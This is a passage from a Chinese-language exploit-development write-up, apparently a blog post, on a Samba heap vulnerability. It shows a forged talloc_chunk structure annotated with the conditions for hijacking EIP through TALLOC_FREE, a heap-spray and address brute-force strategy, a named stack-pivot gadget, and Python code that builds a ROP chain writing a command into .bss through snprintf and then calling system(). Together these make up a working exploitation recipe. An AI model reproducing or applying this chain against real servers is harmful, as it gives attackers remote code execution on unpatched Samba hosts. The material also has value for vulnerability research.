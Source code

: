 ``` c
struct talloc_chunk {
    struct talloc_chunk *next, *prev; // 无要求
    struct talloc_chunk *parent, *child; // 无要求
    struct talloc_reference_handle *refs; // refs = 0
    talloc_destructor_t destructor; // destructor = -1: (No Crash), others: controled EIP
    const char *name;
    size_t size;
    unsigned flags; // 条件1：flags & (TALLOC_FLAG_FREE | ~0xF)) == TALLOC_MAGIC
                    // 条件2：tc->flags & TALLOC_FLAG_LOOP == False
    void *pool; // 无要求
    8 bytes padding; // 无要求
};
```
到此为止，我们已经知道怎么通过构造chunk传给`TALLOC_FREE()`来控制EIP。

### 穷举堆地址
经过修改PoC并结合gdb调试发现，我们可以使用new password来构造大量的chunk（对应于PoC中的`uasNewPass['Data']`）。虽然发送给Samba的请求当中有很多数据存储在堆当中（例如`username`和`password`，参考 [2]），但是很多数据要求符合WSTR编码，无法传入任意字符。
为了提高穷举堆地址的效率，我们采用 [4] 提出的思路，使用只包含`refs`、`destructor`、`name`、`size`、`flags`这5个域的压缩chunk，从48字节缩小为20字节，这样我们在穷举时只需要对每个地址穷举5个偏移，而不是原来的12个。压缩chunk的喷射与实际`talloc_chunk`结构的对应关系如下图所示。

![image](samba.png)

chunk喷射的数量多少也会影响到穷举的效率。如果在内存中喷射的chunk较多，则需要枚举的空间就会减少，但是每次枚举时网络传输、程序对输入的处理等因素所导致的时间开销也会增大，因此需要根据实际情况来选择一个折中的数值。另外，在我们实现的exploit中，使用了进程池来实现并行枚举，提高了穷举的效率。

### ROP

要实现ROP，我们还需要枚举Samba程序加载的基址。由于地址随机化保护机制的最小粒度为内存页，所以我们按页来枚举即可（0x1000字节）。我们在平台中大量测试了地址空间可能的范围，大致有0x200种可能的情形，可以接受。
现在我们只能通过构造`destructor`来控制一次EIP，为了实现ROP，首先需要做栈迁移（stack pivot），我们在samba的binary中找到了如下gadget：
```
0x000a6d7c: lea esp, dword [ecx-0x04] ; ret ;
```
由于在控制EIP的现场，`ecx-0x4`正好指向chunk的`name`字段，因此我们可以从`name`字段开始进行ROP。通过设置一个pop4ret（`pop eax ; pop esi ; pop edi ; pop ebp ; ret ;`）的gadget，就可以让esp指向下一个压缩chunk的`name`字段，依次往下，直到ESP走到我们喷射的内存的尽头，我们在那里可以无限制地写入ROP Payload。

[4] 中并没有给出具体栈迁移的gadget，但是根据该文中给出的图示，可以推测NCC Group的研究人员使用了相同的gadget。

### 任意代码执行

注意到smbd程序中导入了`system`函数，因此我们可以直接调用`system`的PLT地址来执行任意命令。但是如何写入命令呢，如果使用在堆中布置命令，目前我们只知道压缩chunk的地址，但是其中只剩下4字节可用，所以考虑调用`snprintf`，往bss section中逐字节写入命令，这种方式可以执行任意长度的命令。需要注意的是，在调用`snprintf`和`system`时，由于binary使用的是地址无关代码（PIC），需要把GOT表地址恢复到ebx寄存器中。生成ROP Payload的Python代码如下所示：

``` python
# ebx => got
rop = l32(popebx) + l32(got)
# write cmd to bss, fmt == "%c"
for i in xrange(len(cmd)):
    c = cmd[i]
    rop += l32(snprintf) + l32(pop4ret)
    rop += l32(bss + i) + l32(2) + l32(fmt) + l32(ord(c))
# system(cmd)
rop += l32(system) + 'leet' + l32(bss)
```

